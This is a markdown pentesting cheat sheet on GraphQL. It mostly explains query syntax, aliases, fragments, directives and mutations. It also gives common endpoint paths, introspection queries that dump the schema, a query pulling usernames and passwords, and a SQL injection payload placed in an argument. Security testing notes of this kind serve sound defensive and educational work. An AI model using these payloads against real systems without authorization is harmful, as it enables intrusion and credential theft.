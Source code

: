 ```yaml
---
title: Pentesting GraphQL
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - pentesting
  - api
  - graphql
---
```

# Pentesting GraphQL

## Common Directories

```txt
/graphql
/graphiql
/graphql.php
/graphql/console
```

 

## Basic Operations - Queries

We can fetch field information by sending queries.

```graphql
query {
	__typename
}
```

### [Fields](https://exploit-notes.hdks.org/exploit/web/api/graphql-pentesting/#fields)

To fetch a field object, send a query like the following.

```graphql
query {
	user {
		name
		friends {
			name
		}
	}
}
```

### Arguments

We can get the specific information by padding arguments (e.g. `id`) to fields.

```graphql
query {
	user (id: "1") {
		name
	}
}
```

### Aliases

We can set aliases each field to get multiple results in one request.

```graphql
query {
	John: user (id: "1") {
		name
		age
	}
	Emma: user (id: "2") {
		name
		age
	}
}
```

### Fragments

We can define arbitrary fragment that is be reusable when fetching each field.

```graphql
query {
	firstUser: user (id: "1") {
		...userFields
	}
	secondUser: user (id: "2") {
		...userFields
	}
	
	fragment userFields on User {
		name
		age
		friends {
			name
		}
	}
}
```

### Operation Names

We can define an operation name to make an operation less ambiguous. By setting a name, it makes it easier to understand at a glance what kind of operation.

```graphql
query UserNameAndFriends {
	user {
		name
		friends {
			name
		}
	}
}
```

### Variables

```graphql
query UsrNameAndFriends($userId: ID) {
	user (id: $userId) {
		name
		friends {
			name
		}
	}
}
```

### Directives
We can filter by passing a directive in fields.

- **include**

Only include this field if the argument is `true`.

```graphql
query UserNameAndFriends($userId: ID, $withFriends: Boolean!) {
	user(id: $userId) {
		name
		friends @include(if: $withFriends) {
			name
		}
	}
}
```

- **skip**

Skip this field if the argument is `true`.

```graphql
query UserNameAndFriends($userId: ID, $withFriends: Boolean!) {
	user(id: $userId) {
		name
		friends @skip(if: $withFriends) {
			name
		}
	}
}
```

  

## Basic Operations - Mutations

We can modify fields with the `mutation` field.

```graphql
mutation {
	__typename
}
```

To modify a field, execute like the following.

```graphql
mutation CreateCommentForPost($postId: ID!, $comment: Comment!) {
	createComment(id: $postId, comment: $comment) {
		comment
	}
}
```

## Enumeration

```graphql
# List fields
query { __schema { types { name } } }
query { __schema { types { fields { name } } } }
query { __schema { types { fields { name description } } } }
query { __schema { types { name fields { name } } } }
query { __schema { types { name fields { name args { name description type { name kind ofType { name kind } } } } } } }

# Dump database schema
fragment FullType on __Type { kind name description fields(includeDeprecated: true) { name description args { ...InputValue } type { ...TypeRef } isDeprecated deprecationReason } inputFields { ...InputValue } interfaces { ...TypeRef } enumValues(includeDeprecated: true) { name description isDeprecated deprecationReason }  possibleTypes { ...TypeRef }} fragment InputValue on __InputValue { name description type { ...TypeRef } defaultValue } fragment TypeRef on __Type { kind name ofType { kind name ofType { kind name ofType { kind name ofType { kind name ofType { kind name ofType { kind name ofType { kind name } } } } } } }} query IntrospectionQuery { __schema { queryType { name } mutationType { name } types { ...FullType } directives { name description locations args { ...InputValue } } } }

# Dump specific field
query { getUsers { username, password } }
```

  

## SQL Injection

We might be able to inject SQL somewhere e.g. arguments. Please refer to [SQL Injection Cheat Sheet](https://exploit-notes.hdks.org/exploit/web/security-risk/sql-injection-cheat-sheet/) for more payloads.

```graphql
{
	user (id: "1' UNION SELECT null,null-- -") {
		name
		password
	}
}
```

  

## NoSQL Injection

We might be able to inject NoSQL somewhere e.g. arguments. Please refer to [NoSQL Injection](https://exploit-notes.hdks.org/exploit/web/security-risk/nosql-injection/) for more payloads.

## References

- [https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/GraphQL%20Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/GraphQL%20Injection)
- [https://graphql.org/learn/queries/](https://graphql.org/learn/queries/)
- [https://escape.tech/blog/pentest101/](https://escape.tech/blog/pentest101/)